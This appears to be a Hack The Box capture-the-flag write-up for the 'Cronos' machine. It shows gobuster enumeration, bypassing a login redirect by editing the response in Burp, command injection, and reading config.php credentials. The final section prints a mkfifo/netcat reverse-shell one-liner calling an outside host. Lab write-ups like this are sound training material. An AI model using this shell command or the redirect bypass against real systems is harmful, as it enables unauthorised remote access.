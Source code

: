 # 15 - Admin-Cronos


# Index page
![](vx_images/4570621776322.png)


# Gobuster
```sql
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/cronos]
└─$ gobuster dir -u admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/admin.log  -t 100 -x ".php,.html,.txt" 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://admin.cronos.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/05/28 17:42:34 Starting gobuster in directory enumeration mode
===============================================================
/welcome.php          (Status: 302) [Size: 439] [--> index.php]
/index.php            (Status: 200) [Size: 1547]               
/logout.php           (Status: 302) [Size: 0] [--> index.php]  
/config.php           (Status: 200) [Size: 0]                  
/session.php          (Status: 302) [Size: 0] [--> index.php]  
/server-status        (Status: 403) [Size: 304]                
```

Notice  the size of welcome.php, it has probably more than just the redirection.


# welcome.php 

Let's view the request and response from/to welcome.php on Burp

![](vx_images/3875312575414.png)

  
And here is the response, in order to catch the response on burp, go to **Options** and check **Intercept responses based on  the following rules** under **Intercept Server Responses**. By default it will send the response to our browser.

![](vx_images/1094336901165.png)

Before forwarding the response, response code must be changed to 200 and location header should be omitted otherwise before seeing the body of welcome.php, we will be redirected.
```bash
HTTP/1.1 200 Found # change it from 302 to 200
Location: index.php # remove this line
```

# welcome.php
![](vx_images/4267406849569.png)


# Command Injection

Before doing command injection I'll open up a python web server

```py
$ sudo python3 -m http.server 80
```

Let's inject our command now

![](vx_images/5165639536211.png)

![](vx_images/3073639082689.png)

Yes we gained remote code execution, let's try to get a reverse shell now.


# config.php & mysql creds
![](vx_images/5397092897033.png)


# Reverse Shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


![](vx_images/1002907767219.png)